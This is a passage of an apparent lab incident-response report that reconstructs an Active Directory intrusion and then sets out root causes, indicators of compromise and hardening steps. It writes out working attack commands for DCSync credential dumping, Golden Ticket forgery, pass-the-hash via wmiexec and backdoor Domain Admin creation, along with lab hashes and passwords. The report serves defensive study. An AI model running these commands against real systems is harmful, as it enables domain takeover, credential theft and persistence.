2. **DCSync Directory Replication:** The service account password was cracked offline to `Password123!`. Critically, this service account had been granted excessive Active Directory permissions: **`DS-Replication-Get-Changes`** and **`DS-Replication-Get-Changes-All`**.
   At `18:02:16`, the attacker weaponized these rights using Impacket `secretsdump.py` to initiate a DCSync attack against the Domain Controller:
   ```bash
   python3 /usr/local/bin/secretsdump.py ad.lab/HANK_SHERMAN:'Password123!'@192.168.56.10 -outputfile /tmp/dcsync_output
   ```


*Figure 11: Auditd bashcmd log capturing secretsdump.py replicating the NTDS directory partition.*

This command dumped the entire Active Directory database, recovering:
* `Administrator` NTLM Hash: `aad3b435b514e4eeaad3b435b51404ee:cc8147f79ec91200a3ee2c2ebc65f9fb`
* **`krbtgt` NTLM Hash: `611a8cdcc21cb3fe3bf3a4c2f4e05f6e`**
* Domain SID: `S-1-5-21-3315718683-193253855-3518612541`

3. **Golden Ticket Forgery:** With the `krbtgt` hash and Domain SID in hand, the attacker forged an enterprise Kerberos Ticket Granting Ticket (Golden Ticket) with 10-year validity using `ticketer.py`:
   ```bash
   python3 /usr/local/bin/ticketer.py -nthash 611a8cdcc21cb3fe3bf3a4c2f4e05f6e -domain-sid S-1-5-21-3315718683-193253855-3518612541 -domain ad.lab Administrator
   ```


*Figure 12: Auditd bashcmd log capturing Impacket ticketer.py forging Kerberos Golden Ticket for domain Administrator.*

4. **Pass-the-Hash to Domain Controller:** Armed with the forged ticket and the Administrator NTLM hash, the attacker authenticated to the Domain Controller at `18:04:47`. Wazuh triggered Rule `100613` (`Successful Remote Logon: possible pass-the-hash attack`), and Windows security logs on `PC-DC` fired EID `4624` (Type 3 Logon) and EID `4672` (`Sensitive privileges assigned to human account logon`, including `SeDebugPrivilege`).


*Figure 13: Wazuh SIEM alert detecting Pass-the-Hash Type 3 NTLM logon on Domain Controller.*

#### Telemetry & Evidence Reference (Phase 5)
| Artifact File Link | Timestamp | Sensor | Event / Rule Description | Key Analytical Finding |
|:---|:---|:---|:---|:---|
| [`wzb-33-kerberoast-auditd-getuserspns.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-33-kerberoast-auditd-getuserspns.jpg) | `18:01:14` | Auditd | Bashcmd: `python3 GetUserSPNs.py ad.lab/win10` | **Embedded Milestone (Fig 10)**: Kerberoasting HANK_SHERMAN |
| [`wzb-34-dcsync-auditd-secretsdump-ntds.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-34-dcsync-auditd-secretsdump-ntds.jpg) | `18:02:16` | Auditd | Bashcmd: `python3 secretsdump.py ... -outputfile dcsync` | **Embedded Milestone (Fig 11)**: DCSync replicating NTDS |
| [`wzb-35-pth-wazuh-eid4624-detection.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-35-pth-wazuh-eid4624-detection.jpg) | `18:04:47` | Wazuh SIEM | Successful Remote Logon: possible pass-the-hash attack | **Embedded Milestone (Fig 13)**: Pass-the-Hash alert |
| [`wzb-36-pth-dc-eid4624-administrator-logon.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-36-pth-dc-eid4624-administrator-logon.jpg) | `18:04:48` | Domain Controller | DC EID `4624`: Remote Logon Type 3 Administrator | Inbound NTLM logon on DC using extracted admin hash |
| [`wzb-37-pth-dc-eid4672-privilege-assignment.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-37-pth-dc-eid4672-privilege-assignment.jpg) | `18:04:48` | Domain Controller | DC EID `4672`: Special privileges assigned to new logon | `SeDebugPrivilege` and administrative token granted |
| [`wzb-38-goldenticket-auditd-ticketer-forgery.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-38-goldenticket-auditd-ticketer-forgery.jpg) | `18:05:14` | Auditd | Bashcmd: `python3 ticketer.py -nthash <krbtgt_hash>` | **Embedded Milestone (Fig 12)**: Golden Ticket forged |
| [`wzb-39-wmiexec-wazuh-dc-process-fanout.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-39-wmiexec-wazuh-dc-process-fanout.jpg) | `18:05:40` | Wazuh SIEM | Wazuh Rule `100613`: Impacket wmiexec detected on DC | WMI process fan-out invoking remote hidden cmd.exe |
| [`wzb-40-wmiexec-sysmon-dc-hostname-check.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-40-wmiexec-sysmon-dc-hostname-check.jpg) | `18:05:41` | Sysmon | Sysmon EID `1`: `cmdline=hostname` via WMI | Initial WMI verification command execution on DC |
| [`wzb-41-goldenticket-dc-eid4624-kerberos-logon.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-41-goldenticket-dc-eid4624-kerberos-logon.jpg) | `18:06:44` | Domain Controller | DC EID `4624`: Remote Logon Type 3 Kerberos Administrator | Forged Golden Ticket injected into DC session |
| [`wzb-42-overview-wazuh-alert-spike-histogram.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-42-overview-wazuh-alert-spike-histogram.jpg) | `18:06:45` | Wazuh UI | Attack Timeline Histogram Surge (17:10–18:35) | Alert spike corresponding to Domain Admin actions |

---

### Phase 6: Domain Persistence, Staging & Anomalous Exfiltration
**Timestamp Range:** `18:07:00` – `18:17:10`  
**Threat Vector:** WMI User Provisioning, Group Escalation, Local Data Staging, Automated SCP Exfiltration  
**Target Asset:** `192.168.56.10` (`PC-DC`) $\to$ `192.168.56.30` (Pivot) $\to$ `192.168.232.135` (Kali)  

With full administrative control over the Domain Controller via Impacket `wmiexec.py`, the attacker established redundant persistence and staged data for exfiltration.

1. **Backdoor Account Creation & Domain Admin Elevation:**
   At `18:07:51`, the attacker provisioned a persistent backdoor account and elevated it directly into `Domain Admins`:
   ```cmd
   cmd.exe /Q /c net user backdoor PCssw0rd123! /add /expires:never
   cmd.exe /Q /c net localgroup Administrators backdoor /add
   cmd.exe /Q /c net group "Domain Admins" backdoor /add
   ```
   Windows security auditing recorded EID `4720` (`A user account was created: backdoor`), EID `4728` (`A member was added to a security-enabled global group: Domain Admins`), and EID `4738` (`A user account was changed`).


*Figure 14: Wazuh Alert 100613 capturing WMI execution adding backdoor user into Domain Admins group.*

2. **Data Harvesting & Staging:**
   The attacker enumerated and consolidated sensitive enterprise assets into `C:\Windows\Temp\`:
   ```cmd
   cmd /c "net user /domain > C:\Windows\Temp\domain_users.txt"
   cmd /c "whoami /all > C:\Windows\Temp\admin_info.txt"
   cmd /c "type C:\Users\Administrator\Documents\* > C:\Windows\Temp\sensitive_data.txt"
   ```

3. **Anomalous Automated Exfiltration:**
   The staged files were transferred from the Domain Controller back to the Linux pivot (`/tmp/domain_users.txt`, `/tmp/admin_info.txt`, `/tmp/sensitive_data.txt`). At `18:17:01`, the attacker initiated automated exfiltration from the pivot host back to the external Kali machine (`192.168.232.135`) using an automated SCP script.
   
   Wazuh detected this automated exfiltration through **Rule `5715` Rate Anomaly**: **6 distinct SSH/SCP sessions authenticated in less than 0.57 seconds** (`18:17:01.010` to `18:17:01.580`).


*Figure 15: Wazuh SIEM timeline recording burst of 6 rapid SSH authentication sessions during automated SCP exfiltration.*

#### Telemetry & Evidence Reference (Phase 6)
| Artifact File Link | Timestamp | Sensor | Event / Rule Description | Key Analytical Finding |
|:---|:---|:---|:---|:---|
| [`wzb-43-persist-sysmon-dc-net-user-backdoor-add.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-43-persist-sysmon-dc-net-user-backdoor-add.jpg) | `18:07:51` | Sysmon | Sysmon EID `1`: `cmd /c net user backdoor ... /add` | Backdoor user account creation via WMI |
| [`wzb-44-persist-dc-eid4720-backdoor-created.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-44-persist-dc-eid4720-backdoor-created.jpg) | `18:07:52` | Domain Controller | Windows EID `4720`: User account created (backdoor) | Active Directory event confirming user creation |
| [`wzb-45-persist-sysmon-dc-localgroup-admin-add.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-45-persist-sysmon-dc-localgroup-admin-add.jpg) | `18:08:58` | Sysmon | Sysmon EID `1`: `net localgroup Administrators backdoor /add` | Backdoor added to local Administrators on DC |
| [`wzb-46-persist-wazuh-dc-domain-admins-add.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-46-persist-wazuh-dc-domain-admins-add.jpg) | `18:08:59` | Wazuh SIEM | Wazuh Rule `100613`: `net group "Domain Admins" backdoor /add` | **Embedded Milestone (Fig 14)**: Elevation to Domain Admins |
| [`wzb-47-persist-dc-eid4728-domain-admins-change.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-47-persist-dc-eid4728-domain-admins-change.jpg) | `18:08:59` | Domain Controller | Windows EID `4728`: Member added to security group | Audit verification of Domain Admins group change |
| [`wzb-48-persist-sysmon-dc-net-user-backdoor-query.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-48-persist-sysmon-dc-net-user-backdoor-query.jpg) | `18:09:05` | Sysmon | Sysmon EID `1`: `net user backdoor` inquiry | Attacker verifying backdoor flags and group membership |
| [`wzb-49-staging-sysmon-dc-domain-users-txt.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-49-staging-sysmon-dc-domain-users-txt.jpg) | `18:13:42` | Sysmon | Sysmon EID `1`: `net user /domain > domain_users.txt` | Dumping domain user database to staging file |
| [`wzb-50-staging-sysmon-dc-admin-info-txt.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-50-staging-sysmon-dc-admin-info-txt.jpg) | `18:14:41` | Sysmon | Sysmon EID `1`: `whoami /all > admin_info.txt` | Dumping administrative token to staging file |
| [`wzb-51-staging-sysmon-dc-sensitive-data-txt.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-51-staging-sysmon-dc-sensitive-data-txt.jpg) | `18:15:32` | Sysmon | Sysmon EID `1`: `type C:\Documents... > sensitive_data.txt` | Consolidating sensitive files to staging file |
| [`wzb-52-exfil-auditd-staging-files-verified.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-52-exfil-auditd-staging-files-verified.jpg) | `18:16:50` | Auditd | Bashcmd: `ls /tmp/domain_users.txt ...` | Verifying staged files on Linux pivot host |
| [`wzb-53-exfil-wazuh-sshd-rapid-sessions-burst.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-53-exfil-wazuh-sshd-rapid-sessions-burst.jpg) | `18:17:01` | Wazuh SIEM | Rule `5715`: 6 SSH sessions in `<0.57s` | **Embedded Milestone (Fig 15)**: Automated SCP exfil burst |
| [`wzb-68-persist-dc-eid4738-backdoor-modified-json.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-68-persist-dc-eid4738-backdoor-modified-json.jpg) | `18:24:35` | Domain Controller | Windows EID `4738` Document Details | Detailed JSON record of backdoor user modification |

---

### Phase 7: Coordinated Dual-Endpoint Impact & Defacement
**Timestamp Range:** `18:17:10` – `18:24:32`  
**Threat Vector:** WMI Remote Execution, Registry Manipulation, Simulated Ransomware Encryption, Denial of Service  
**Target Assets:** `192.168.56.10` (`PC-DC`) and `192.168.56.20` (`Win10.ad.lab`)  

In the final operational phase, the adversary executed a synchronized defacement and extortion attack across both the Active Directory Domain Controller and the corporate workstation.

1. **Domain Controller Impact (`18:17` – `18:21`):**
   * Dropped defacement image: `cmd /c copy C:\Windows\Temp\hacked.bmp C:\Windows\Web\Wallpaper\Windows\hacked.bmp`
   * Registry alteration: Modified `HKCU\Control Panel\Desktop\Wallpaper` to point to `hacked.bmp` and set `WallpaperStyle` to `2` (Stretched). Wazuh triggered Rule `92041` (`Value added to registry key has Base64-like pattern`).
   * Simulated Ransomware Payload: Emulated file encryption by writing simulated XOR markers to dummy user files (`passwords.enc`, `documents.enc`) and dropping ransom notes:
     ```cmd
     echo YOU HAVE BEEN HACKED. Contact: eclipse@manic.me > README_HACKED.txt
     ```
   * Forced Reboot: Executed `shutdown /r /t 0` via WMI to force the desktop wallpaper refresh.


*Figure 16: Wazuh Alert 92041 logging unauthorized registry modification of Desktop Wallpaper on Domain Controller.*

2. **Workstation Impact Fan-Out (`18:21` – `18:24`):**
   The attacker then turned their attention to workstation `192.168.56.20` (`Win10.ad.lab`), injecting the Administrator NTLM hash via `wmiexec.py`:
   ```bash
   python3 /usr/local/bin/wmiexec.py -hashes aad3b435b514e4eeaad3b435b51404ee:cc8147f79ec91200a3ee2c2ebc65f9fb Administrator@192.168.56.20
   ```
   The attacker duplicated the exact defacement and simulated ransomware sequence on the workstation:
   * Registry keys `Wallpaper` and `WallpaperStyle` altered.
   * `README_HACKED.txt` dropped onto the desktop.
   * Files renamed with `.enc` extensions.
   * Forced immediate restart: `shutdown /r /t 0`.


*Figure 17: Auditd bashcmd log capturing WMIexec execution from pivot host targeting workstation 192.168.56.20.*

#### Telemetry & Evidence Reference (Phase 7)
| Artifact File Link | Timestamp | Sensor | Event / Rule Description | Key Analytical Finding |
|:---|:---|:---|:---|:---|
| [`wzb-54-impact-sysmon-dc-wallpaper-bmp-drop.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-54-impact-sysmon-dc-wallpaper-bmp-drop.jpg) | `18:17:45` | Sysmon | Sysmon EID `1`: `copy ...\hacked.bmp` on DC | Defacement image asset copied into system directories |
| [`wzb-55-impact-wazuh-dc-wallpaper-registry-add.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-55-impact-wazuh-dc-wallpaper-registry-add.jpg) | `18:18:20` | Wazuh SIEM | Wazuh Rule `92041`: Value added to registry key | **Embedded Milestone (Fig 16)**: Wallpaper registry defacement |
| [`wzb-56-impact-sysmon-dc-wallpaperstyle-registry.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-56-impact-sysmon-dc-wallpaperstyle-registry.jpg) | `18:18:21` | Sysmon | Sysmon EID `1`: `reg add ... WallpaperStyle /d 2` | Setting wallpaper layout style to stretched |
| [`wzb-57-impact-sysmon-dc-ransom-note-and-payload.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-57-impact-sysmon-dc-ransom-note-and-payload.jpg) | `18:19:11` | Sysmon | Sysmon EID `1`: `echo YOU HAVE BEEN HACKED > README` | Deploying extortion note and simulated encryption key |
| [`wzb-58-impact-sysmon-dc-dummy-passwords-enc.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-58-impact-sysmon-dc-dummy-passwords-enc.jpg) | `18:19:35` | Sysmon | Sysmon EID `1`: `echo > ...\passwords.enc` | Creating dummy encrypted files on DC desktop |
| [`wzb-59-impact-wazuh-dc-forced-reboot.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-59-impact-wazuh-dc-forced-reboot.jpg) | `18:20:45` | Wazuh SIEM | System shutdown initiated: `shutdown /r /t 0` | Forced system restart on Domain Controller |
| [`wzb-60-impact-auditd-workstation-wmiexec-fanout.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-60-impact-auditd-workstation-wmiexec-fanout.jpg) | `18:21:04` | Auditd | Bashcmd: `wmiexec.py ... Administrator@192.168.56.20` | **Embedded Milestone (Fig 17)**: Pivoting WMI to Win10 |
| [`wzb-61-impact-win10-eid4624-admin-remote-logon.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-61-impact-win10-eid4624-admin-remote-logon.jpg) | `18:22:24` | Win10 Log | Windows EID `4624`: Remote Logon Type 3 Administrator | Workstation receiving inbound remote administrative logon |
| [`wzb-62-impact-wazuh-win10-wallpaper-reg-add.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-62-impact-wazuh-win10-wallpaper-reg-add.jpg) | `18:24:01` | Wazuh SIEM | Wazuh Rule `100613`: `reg add Wallpaper` on Win10 | Desktop defacement registry modification on workstation |
| [`wzb-63-impact-wazuh-win10-wallpaperstyle-reg.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-63-impact-wazuh-win10-wallpaperstyle-reg.jpg) | `18:24:02` | Wazuh SIEM | Wazuh Rule `100613`: `reg add WallpaperStyle /d 2` | Wallpaper layout mode configured on workstation |
| [`wzb-64-impact-wazuh-win10-ransom-note-drop.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-64-impact-wazuh-win10-ransom-note-drop.jpg) | `18:24:05` | Wazuh SIEM | Wazuh Rule `100613`: `echo > README_HACKED.txt` | Extortion notice dropped on workstation desktop |
| [`wzb-65-impact-wazuh-win10-documents-enc-drop.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-65-impact-wazuh-win10-documents-enc-drop.jpg) | `18:24:10` | Wazuh SIEM | Wazuh Rule `100613`: `echo > documents.enc` | Simulated encryption files dropped on workstation |
| [`wzb-66-impact-wazuh-win10-forced-reboot.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-66-impact-wazuh-win10-forced-reboot.jpg) | `18:24:15` | Wazuh SIEM | Wazuh Rule `100613`: `shutdown /r /t 0` on Win10 | Forced restart executed on workstation |
| [`wzb-67-impact-auditd-workstation-wmiexec-hash.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-67-impact-auditd-workstation-wmiexec-hash.jpg) | `18:24:32` | Auditd | Full command line: `wmiexec.py -hashes ...` | Forensic audit log capturing injected NTLM hash |

---

## 3. Root Cause Analysis: Systemic Vulnerabilities & Organizational Failures

This security incident was made possible by **seven compounding organizational, configuration, and architectural failures**:



### 1. Insecure Sudoers Configuration (`www-data` NOPASSWD)
* **The Vulnerability:** `/etc/sudoers` contained `www-data ALL=(ALL) NOPASSWD: /usr/bin/python3`.
* **Impact:** Any remote web exploitation (arbitrary file upload, webshell, remote code execution) instantly resulted in complete host compromise. Python possesses native operating system invocation functions (`os.system("/bin/bash")`), converting a low-privilege web compromise into immediate root access.

### 2. Flawed DMZ Network Architecture (Absence of Micro-Segmentation)
* **The Vulnerability:** The internet-facing web server (`192.168.56.30`) resided on the same Layer 2/3 broadcast segment as the internal Domain Controller (`192.168.56.10`) and user workstations (`192.168.56.20`).
* **Impact:** Once compromised, the web server was permitted to listen to multicast LLMNR broadcast queries, communicate over SMB (port 445), query LDAP/SAMR (port 389), negotiate Kerberos (port 88), and execute remote RPC/WMI (ports 135/49152+). A true DMZ must block all inbound traffic to the internal LAN except strictly required, proxy-inspected egress.

### 3. Excessive Active Directory Delegations on Service Account (`HANK_SHERMAN`)
* **The Vulnerability:** The service account `HANK_SHERMAN` held the extended rights `DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All` on the domain root object.
* **Impact:** These privileges are intended strictly for Domain Controllers replicating Active Directory. Granting them to a standard user or service account enables **DCSync**, allowing any user with the account's password to impersonate a Domain Controller and extract the `krbtgt` master hash.

### 4. Insecure Service Account Password Hygiene
* **The Vulnerability:** Service Principal Name `HANK_SHERMAN` utilized a static, 12-character dictionary password (`Password123!`).
* **Impact:** Because Active Directory allows any authenticated domain user to request a Kerberos service ticket (TGS) for any registered SPN, the ticket was Kerberoasted and cracked offline in minutes.

### 5. Legacy Name Resolution Enabled (LLMNR & NetBIOS)
* **The Vulnerability:** Windows 10 workstation had Link-Local Multicast Name Resolution (LLMNR) and NetBIOS over TCP/IP enabled by default.
* **Impact:** When DNS failed, the workstation broadcast its credentials across the local subnet, allowing Responder to capture the NetNTLMv2 hash without requiring active Man-in-the-Middle positioning.

### 6. Unrestricted Root SSH Access
* **The Vulnerability:** The SSH daemon on `192.168.56.30` permitted direct root logins (`PermitRootLogin yes`) and did not restrict public key writing in `/root/.ssh/authorized_keys`.
* **Impact:** Allowed the adversary to establish permanent, out-of-band C2 that persisted independently of the web application.

### 7. Unmonitored Local WMI Spawning
* **The Vulnerability:** Absence of local firewall rules blocking RPC/WMI between workstations and servers, combined with unrestricted WMI child process spawning (`wmiprvse.exe` $\to$ `cmd.exe`).
* **Impact:** Permitted seamless, fileless remote execution across the entire enterprise.

---

## 4. Master Indicators of Compromise (IoC) Register

### 4.1 Network Indicators
| Indicator Type | Observable Value | Protocol / Port | Context |
|:---|:---|:---|:---|
| **External IPv4** | `192.168.232.135` | TCP 80, 4444, 22 | Adversary external C2 and attack origin |
| **Internal IPv4 (Compromised)** | `192.168.56.30` | TCP 22, 80, UDP 5355 | DMZ Web Server weaponized as internal pivot |
| **Internal IPv4 (Target)** | `192.168.56.10` | TCP 88, 389, 445, 135 | Active Directory Domain Controller (`PC-DC`) |
| **Internal IPv4 (Target)** | `192.168.56.20` | TCP 445, 135, WebDAV | Corporate Workstation (`Win10.ad.lab`) |
| **Malicious Port** | `TCP 4444` | TCP Reverse Shell | Initial web reverse shell listener |
| **Multicast Protocols** | `UDP 5355` / `UDP 137` | LLMNR / NetBIOS | Broadcast poisoning targets abused by Responder |

### 4.2 Host, Identity & Process Indicators
| Indicator Type | Observable / Identifier | Host | Context |
|:---|:---|:---|:---|
| **Webshell File** | `shell.php` | `DVWA` (`192.168.56.30`) | `/var/www/html/dvwa/hackable/uploads/shell.php` |
| **Injected SSH Key** | `ssh-ed25519 AAAAC3NzaC11ZD11NTE5AAAAIACi7TGj+OejU781Wt/16/im7sLXOR1jben7h94DmDJ5 kali@kali` | `DVWA` | Appended to `/root/.ssh/authorized_keys` |
| **Backdoor User Account** | `backdoor` | `AD.LAB` (DC & Domain) | Rogue user added to `Domain Admins` (EID 4720, 4728) |
| **Compromised User** | `AD.LAB\win10` | `Win10.ad.lab` | NetNTLMv2 hash captured via LLMNR poisoning |
| **Compromised SPN** | `HANK_SHERMAN` | `AD.LAB` | Kerberoasted service account with DCSync rights |
| **Staged File** | `/tmp/win10.hash` | `DVWA` | Captured NetNTLMv2 hash file |
| **Staged File** | `/tmp/hank.hash` | `DVWA` | Kerberoasted TGS ticket hash file |
| **Staged File** | `/tmp/dcsync_output.ntds` | `DVWA` | Replicated Active Directory NTDS database extract |
| **Staged File** | `C:\Windows\Temp\domain_users.txt` | `PC-DC` | Active Directory domain user enumeration dump |
| **Staged File** | `C:\Windows\Temp\admin_info.txt` | `PC-DC` | Administrative token and privilege dump |
| **Staged File** | `C:\Windows\Temp\sensitive_data.txt`| `PC-DC` | Harvested enterprise document staging file |
| **Defacement Asset** | `hacked.bmp` | `PC-DC` & `Win10` | Copied to wallpaper directories for desktop defacement |
| **Extortion Notice** | `README_HACKED.txt` | `PC-DC` & `Win10` | Ransom extortion note dropped on user desktops |
| **Simulated Ransom Enc** | `passwords.enc`, `documents.enc` | `PC-DC` & `Win10` | Simulated XOR-encrypted file payloads |
| **Malicious Registry Key** | `HKCU\Control Panel\Desktop\Wallpaper` | `PC-DC` & `Win10` | Forced to `hacked.bmp` |
| **Malicious Registry Key** | `HKCU\Control Panel\Desktop\WallpaperStyle` | `PC-DC` & `Win10` | Set to `2` (Stretched) |

### 4.3 Extracted Password Hashes & Cryptographic Material
| Account / Asset | Material Type | Hash / Key Value |
|:---|:---|:---|
| `AD.LAB\Administrator` | NTLM Hash | `aad3b435b514e4eeaad3b435b51404ee:cc8147f79ec91200a3ee2c2ebc65f9fb` |
| `AD.LAB\krbtgt` | NTLM Hash | `611a8cdcc21cb3fe3bf3a4c2f4e05f6e` |
| `AD.LAB\win10` | Password | `Secur3Lab!` (Cracked from NetNTLMv2) |
| `AD.LAB\HANK_SHERMAN`| Password | `Password123!` (Cracked from Kerberos TGS) |
| `AD.LAB` Domain SID | Domain Security Identifier | `S-1-5-21-3315718683-193253855-3518612541` |

---

## 5. Strategic Defensive Recommendations & Hardening Roadmap

### 5.1 Tactical Verification & Completed Containment
All immediate tactical containment actions documented in [Immediate-Containment-Execution.md](Immediate-Containment-Execution.md) have been executed and verified:
1. External IP `192.168.232.135` severed at boundary firewall.
2. Injected SSH public key purged; root SSH disabled (`PermitRootLogin no`).
3. Malicious webshell `shell.php` removed; upload directory set to `noexec`.
4. Rogue backdoor account `backdoor` disabled and deleted from `Domain Admins`.
5. Compromised user accounts (`win10`, `HANK_SHERMAN`, `Administrator`) passwords reset.
6. Defacement registry keys reset and extortion artifacts purged across both Windows hosts.

### 5.2 Strategic Active Directory & Identity Hardening
* **Double `krbtgt` Password Reset:** Because the adversary forged a Kerberos Golden Ticket with the `krbtgt` hash, the `krbtgt` account password must be reset **twice**, separated by a 24-hour interval (to allow replication and invalidate all existing Ticket Granting Tickets).
* **Revoke DCSync Permissions:** Audit all Active Directory permissions using BloodHound or PowerShell. Remove `DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All` from all non-Domain Controller accounts.
* **Migrate Service Accounts to gMSAs:** Convert all user accounts with Service Principal Names (`HANK_SHERMAN`) to **Group Managed Service Accounts (gMSAs)** with automatic 30-day 128-character password rotation, rendering Kerberoasting cryptographically impossible.
* **Implement Active Directory Administrative Tiering:** Establish strict separation between Tier 0 (Domain Controllers, Identity), Tier 1 (Enterprise Servers), and Tier 2 (Workstations). Deny domain administrator credentials from ever authenticating to workstations.

### 5.3 Network Architecture & DMZ Micro-Segmentation
* **Isolate Web Applications into a True DMZ:** Move `192.168.56.30` onto an isolated VLAN (`192.168.10.0/24`). Configure strict stateful firewall rules denying all outbound traffic from the DMZ to the internal corporate LAN (`192.168.56.0/24`), blocking SMB (445), RPC (135), LDAP (389), Kerberos (88), and WMI.
* **Disable Insecure Broadcast Resolution:** Deploy Active Directory Group Policy (GPO) to permanently disable **LLMNR** (`Turn off multicast name resolution = Enabled`) and disable **NetBIOS over TCP/IP** on all network adapters to completely neutralize Responder broadcast poisoning.

### 5.4 Host & Endpoint Hardening
* **Purge Sudoers Misconfigurations:** Enforce a strict principle of least privilege in `/etc/sudoers`. Never grant scripting runtimes (`python`, `perl`, `bash`, `awk`, `find`) passwordless sudo execution.
* **Enforce PowerShell Constrained Language Mode & AppLocker:** Deploy Application Whitelisting (AppLocker or Windows Defender Application Control) on workstations and servers to block unauthorized script runtimes, Impacket binaries, and remote WMI child processes.
* **Enable Windows Credential Guard:** Activate Virtualization-Based Security (VBS) and Credential Guard on all Windows endpoints to isolate LSASS memory and prevent NTLM hash dumping via Pass-the-Hash.

### 5.5 SIEM Detection Engineering Enhancements
* **Wazuh Rule for Rapid SSH Bursts:** Deploy a correlation rule triggering on $>4$ SSH authentication sessions from the same source IP in under 2 seconds to catch automated SCP/SFTP exfiltration (addressing the gap identified in Phase 6).
* **Auditd Rule for Sudo Scripting Runtimes:** Alert on any execution of `sudo python*`, `sudo perl*`, or `sudo bash*` from service accounts (`www-data`, `apache`, `nginx`).
* **Sysmon WMI Process Spawning Rule:** Deploy a high-severity Sysmon rule flagging any instance where `wmiprvse.exe` spawns `cmd.exe` or `powershell.exe` executing administrative utilities (`net.exe`, `whoami.exe`, `reg.exe`, `shutdown.exe`).

---

## 6. Conclusion & Incident Sign-off

The deep-dive investigation into Incident `INC-2026-1018-ALPHA` demonstrates that while individual defensive sensors fired at multiple points across the timeline, the **absence of defense-in-depth, proper network segmentation, and sudo privilege hygiene permitted a single web vulnerability to escalate into total enterprise domain compromise**.

The forensic evidence, IoCs, and analytical storyline compiled in this report provide complete accountability for all adversary actions. Implementation of the strategic hardening roadmap will permanently remediate the architectural root causes that enabled this intrusion.

**Report Status:** FINAL / COMPLETED  
**Approved by:** Lead SOC Lab DFIR Incident Commander  
**Distribution:** CISO, Lead Security Architect, SOC Engineering Team, Internal Audit
